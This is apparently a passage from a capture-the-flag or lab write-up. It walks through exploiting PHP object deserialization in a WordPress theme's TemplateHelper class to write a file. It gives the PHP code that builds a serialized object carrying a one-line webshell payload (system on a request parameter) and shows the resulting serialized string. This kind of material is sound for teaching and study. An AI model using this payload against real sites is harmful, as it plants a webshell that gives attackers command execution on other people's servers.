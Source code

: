 #### Generating a malicious php-object

In order to create a malicious php-object, we simply take the TemplateHelper class and comment out the file_put_contents line (as we do not want to write data to disk upon constructing the object.).

```php
<?php

class TemplateHelper
{

    private $file;
    private $data;

    public function __construct(string $file, string $data)
    {
        $this->init($file, $data);
    }

    public function __wakeup()
    {
        $this->init($this->file, $this->data);
    }

    private function init(string $file, string $data)
    {    
        $this->file = $file;
        $this->data = $data;
        //__DIR__ = "wp-content/themes/twentytwenty" according to README.md
        //file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
        }
}
[...]
```

We now have the php-class and we know that upon deserialization our specified data will be written to `wp-content/themes/twentytwenty/logs/$this->file` (README.md: `"create logs directory in wp-content/themes/twentytwenty"` ).

So let us try to write a simple php-webshell to the web-server. For this we simply need to create the TemplateHelper object with any filename that ends with `.php` and a php-webshell as data.

```php
[...]						// PHP FILE	   // Webshell payload
$object = new TemplateHelper("chronos.php","<?php system(\$_REQUEST[\"cmd\"]);?>");
echo serialize($object) . "\n";

?>
```

If we now run this script, we should get the serialized object that we can use to write a webshell to `wp-content/themes/twentytwenty/logs/chronos.php`.

```bash
root@darkness:~# php object.php
O:14:"TemplateHelper":2:{s:20:"TemplateHelperfile";s:11:"chronos.php";s:20:"TemplateHelperdata";s:33:"<?php system($_REQUEST["cmd"]);?>";}
```
